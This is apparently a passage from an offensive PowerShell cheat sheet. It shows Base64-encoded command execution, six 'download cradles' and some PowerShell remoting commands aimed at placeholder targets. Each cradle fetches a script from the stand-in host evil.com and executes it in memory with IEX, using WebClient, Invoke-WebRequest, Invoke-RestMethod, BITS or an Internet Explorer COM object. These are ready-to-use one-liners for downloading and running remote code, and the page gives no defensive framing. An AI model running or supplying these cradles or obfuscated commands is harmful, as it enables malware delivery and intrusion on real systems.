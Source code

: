 ```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)

powershell.exe -EncodedCommand $encoded
```

#### PowerShell Download Cradles
```powershell
# WebClient
IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')

# Invoke-WebRequest
IEX (IWR 'http://evil.com/payload.ps1' -UseBasicParsing).Content

# Invoke-RestMethod
IEX (IRM 'http://evil.com/payload.ps1')

# Start-BitsTransfer
Start-BitsTransfer -Source 'http://evil.com/payload.ps1' -Destination $env:TEMP\payload.ps1
IEX (Get-Content $env:TEMP\payload.ps1 -Raw)

# .NET WebClient
$wc = [System.Net.WebClient]::new()
IEX $wc.DownloadString('http://evil.com/payload.ps1')

# COM Objects
$ie = New-Object -ComObject InternetExplorer.Application
$ie.Navigate('http://evil.com/payload.ps1')
while($ie.Busy) {Start-Sleep -Milliseconds 100}
$content = $ie.Document.body.innerHTML
IEX $content
```

#### PowerShell Remoting
```powershell
# Enable PSRemoting
Enable-PSRemoting -Force

# Execute remote command
Invoke-Command -ComputerName TARGET -ScriptBlock {Get-Process}

# Interactive session
Enter-PSSession -ComputerName TARGET

# Execute script on multiple computers
Invoke-Command -ComputerName SERVER01,SERVER02,SERVER03 -FilePath C:\Scripts\script.ps1

# Pass credentials
$cred = Get-Credential
Invoke-Command -ComputerName TARGET -Credential $cred -ScriptBlock {whoami}
```
